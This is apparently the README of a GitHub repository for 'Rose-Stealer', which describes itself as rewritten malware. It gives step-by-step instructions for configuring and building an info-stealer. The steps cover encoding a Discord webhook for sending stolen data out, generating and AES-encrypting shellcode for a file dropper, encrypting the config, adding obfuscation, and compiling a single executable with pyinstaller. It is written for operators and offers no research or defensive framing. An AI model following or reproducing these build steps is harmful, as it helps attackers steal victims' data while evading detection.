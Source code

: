 # 🐍 Rose-Stealer
## Rewritten version of the rose malware family.

> [!CAUTION]
> If you don't trust it, read the source.

> [!IMPORTANT]
> This is a small rewritten version for the rose implant.
> I don't provide support for this. You should know what you're doing.

## Requirements
- [Python 3.10+](https://python.org/downloads)
- Python-Libs installed (`pip install -r assets\requirements.txt`)

## Setup
#### [Download](https://github.com/0xRose/Rose-Stealer/archive/refs/heads/main.zip) the source code of this repository.
- Encode your Discord Webhook: `python utils\b85_encode.py DISCORD_WEBHOOK`
  - Place the output in the config.ini file
  ```ini
  [main]
  # base 85 encoded and hexified discord webhook
  discord_webhook=DISCORD_WEBHOOK <--- Put the encoded webhook here
  ```
- File dropper if wanted:
  - generate shellcode with [Donut](https://github.com/TheWover/donut) for an executable file to e.g. client\ `shellc.dat`
  - AES encrypt the shellcode file:
    - `python utils\aes_encrypt.py payload\shellc.dat payload\shellc.aes`
    - Copy the output key into your config.ini file like this:
    ```ini
    [shellcode_loader]
    # file path storing AES encrypted and compressed shellcode
    shellcode_file_name=shellc.aes
    # hexified 32 byte (128-bit AES key)
    shellcode_key=AES_KEY <--- Put the AES key here
    ```
- Now encrypt the config file:
  - `python utils\aes_encrypt.py payload\config.ini payload\config.aes`
  - Put the output key you received into the [malware source code](https://github.com/0xRose/Rose-Stealer/blob/main/payload/main.py) on line 380:
    ```py
    key = "AES_KEY"  # hexified 32 byte key (128-bit) <--- Put the AES key here
    ```
(Additionally i would recommend to add obfuscation on the script now.)
- You can now compile it into a binary: `pyinstaller --clean --onefile --add-data "payload\shellc.aes;." --add-data "payload\config.aes;." --hidden-import cryptography --hidden-import pywin32 --hidden-import pillow --hidden-import aiohttp payload\main.py`

**Yay! Your executable is now inside of the `dist` folder.**
